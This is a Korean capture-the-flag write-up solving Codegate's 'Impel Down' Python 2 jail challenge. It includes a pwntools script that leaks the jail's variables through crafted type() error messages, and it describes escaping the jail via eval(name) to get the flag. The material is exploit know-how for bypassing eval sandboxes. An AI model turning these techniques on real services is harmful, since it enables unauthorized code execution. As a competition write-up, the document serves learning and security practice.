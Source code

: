 ## Impel Down 114pt (Misc)

![](image0.png)

지문에는 서버 주소만 위와 같이 주었다. 연결해보자.

![](image1.png)

오, pyjail! 음,

![](image2.png)

음?

위에 보이는대로, 사용자의 코드를 위험하게 eval해서 실행해주는 듯 하다. 단 dig()/print()로 하니까 신텍스 에러가 뜨는거 보면 파이썬 2고, _ 등의 문자는 필터링해주는 듯 보였다.

에러가 뜨는 것을 이용하여 뭔가 할 수 있지 않을까? 가령,

![](image3.png)

문자열은 호출이 안된다고 되어있는데, 여기서 ‘str’을 결과값으로 해서 뽑으려고 한다. 단 38글자씩만 칠 수 있는 것 같다. 며칠 전에 메타클래스에 대해서 배웠기 때문에 아래의 구문으로 원하는 이름의 타입을 만들 수 있었다.

```python
>>> type('my name', (), {})
<class '__main__.myname'>

>>> type(`dir()`, (), {})
<class '__main__.['__builtins__', '__doc__', '__name__', '__package__']'>

>>> type(`dir()`, (), {})()
<__main__.['__builtins__', '__doc__', '__name__', '__package__'] object at 0x7ffff7e90110>

>>> type(`dir()`, (), {})()()
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
TypeError: '['__builtins__', '__doc__', '__name__', '__package__']' object is not callable
```

이거다!

![](image4.png)

아주 좋다. 계속 가보자. vars()에는 값도 있다. 단 한번에 100글자씩인거같아서, 문자열을 slice해서 뽑았다.

```python
from pwn import *

context.update(log_level='error')

sock = lambda: remote('ch41l3ng3s.codegate.kr', 2014)
for i in range(0, 10000, 100):
    r = sock()

    r.sendline('1')
    r.sendline("dig()/type((repr(vars())[%d:]),(),{})" % i)
    print r.recvall().split("'str' and ")[1][1:-2]

```

출력은 정리해보면 아래와 같다.

```python
{'cmd': 'bomb', 'shuffle': <bound method Random.shuffle of <random.Random object at 0x2a20a70>>, 'watcher': <__main__.Watcher instance at 0x7fab730c4ea8>, 'invalid_cmd': 1, 'your': <__main__.Esacpe_Player instance at 0x7f1c686b8c20>, 'menu': <function menu at 0x7f1c686c8f50>, '__package__': None, 'handler': <function handler at 0x7f511eb13050>, 'Esacpe_Player': <class __main__.Esacpe_Player at 0x786413688d8>, '__doc__': None, 'works_list': {'coworker': 'Find Coworker For Escape', 'tool': 'Find Any Tool', 'dig': 'Go Deep~', 'bomb': 'make boooooooomb!!!'}, '__builtins__': <module '__builtin__' (built-in)>, '__file__': '/home/impel_down/Impel_Down.py', 'choice': <bound method Random.choice of <random.Random object at 0x25b7a70>>, 'sys': <module 'sys' (built-in)>, 'tools_list': ['drill', 'Knife', 'gun', 'spoon', 'book', 'lighter'], '__name__': '__main__', 'ban_list': ['#', '+', '-', '_', '"'], 'ww': ')', 'name': '1', 'work': 'dig()/type((repr(vars())[900:]),(),{})', 'Watcher': <class __ma...
```

오, name이 있다! eval(name)으로 하면 될 것 같다.

![](image5.png)

아주 잘 된다!

![](image6.png)

Flag: Pyth0n J@il escape 1s always fun @nd exc1ting ! :)
